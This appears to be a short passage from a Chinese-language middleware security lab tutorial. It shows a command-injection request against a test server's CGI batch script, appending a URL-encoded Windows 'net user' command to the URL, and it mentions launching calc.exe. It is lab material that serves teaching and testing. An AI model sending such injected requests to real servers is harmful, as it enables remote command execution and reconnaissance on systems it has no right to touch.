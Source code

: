```
```
访问 http://10.3.3.40:8080/

![image.png](18.中间件安全\1693452626742-b0d38494-9c37-44bd-b278-d7c0bb9d722e.png)

在 URL 后拼接系统命令并访问 http://10.3.3.40:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Cnet%20user

![image.png](18.中间件安全\1693452102039-f09698b3-a586-4165-a90a-6505d193329f.png)

可以调出计算器 calc.exe
